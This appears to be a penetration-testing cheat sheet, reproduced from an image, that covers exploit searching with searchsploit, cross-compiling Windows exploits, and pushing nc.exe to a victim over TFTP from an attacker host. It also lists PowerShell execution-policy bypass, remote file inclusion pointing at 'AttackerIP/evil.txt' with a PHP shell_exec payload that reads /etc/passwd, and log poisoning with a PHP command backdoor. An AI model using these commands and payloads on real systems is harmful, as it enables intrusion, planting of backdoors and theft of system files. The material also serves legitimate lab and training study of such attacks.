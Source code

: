 Finding Public Exploits:  
www.securityfocus.com/vulnerabilities  
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory

i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux  
wine exploit.exe #Run Windows executable on Linux

**File Transfers**  
TFTP  
#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
tftp -i AttackerIP GET nc.exe  

PS File Transfer  
#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy

**Web Application Attacks**  
LFI/RFI #usually in poor php code 
RFI  
VulnParam=http://AttackerIP/evil.txt%00 #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is “<?php echo shell_exec(“cat /etc/passwd”);?>” .  
$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt 

$ tail -f /var/log/apache2/access.log #track traffic from our apache web server hosting evil.txt

LFI 
#Contaminate the web server log with a PHP backdoor 
$ nc -nv TargetIP 80 
<?php echo shell_exec($_GET[‘cmd’]);?> 

#append URL to execute command from access log file 
&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00
